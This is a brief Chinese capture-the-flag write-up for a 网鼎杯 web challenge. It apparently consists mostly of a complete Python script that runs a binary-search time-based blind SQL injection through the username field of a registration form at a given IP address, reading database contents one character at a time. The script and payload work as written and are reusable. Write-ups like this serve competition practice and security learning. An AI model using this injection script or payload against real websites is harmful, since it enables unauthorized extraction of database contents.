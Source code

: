 > 网鼎杯

发现注册页

![](.\images\unfinish\注册页.png)

注入username字段成功

![](.\images\unfinish\hackbar.png)

编写二分时间盲注脚本

```python
import requests
import time

url = "http://61.147.171.35:65370/register.php"
data = {
    'email': 'spark@panic404.cn',
    'username': '',
    'password': '1'
}

def inject_post():
    result=""
    s = requests.Session()
    
    # 二分搜索
    for i in range(1,1000):
        # 可打印字符范围
        low=32
        high=128
        mid=(low+high)//2

        while low<high:
            payload=f"0'+(CASE WHEN ascii(substr((select * from flag) from {i} for 1))<{mid} THEN sleep(1) ELSE 1 END)+'0"
            data['username'] = payload
            data['email'] = f"{i}_{mid}@b.com"
  
            start_time=time.time()
            s.post(url=url,data=data,verify=False,allow_redirects=False) # 不跟随重定向
            end_time=time.time()

            if end_time-start_time>1:
                high=mid
            else:
                low=mid+1
            mid=(low+high)//2
            
        if mid<33 or mid>127:
            break
        result += chr(mid-1)
        print(result)

inject_post()
```

输出

![](.\images\unfinish\flag输出.png)

<p style="text-align: right;">
by. Spark0618
</p>
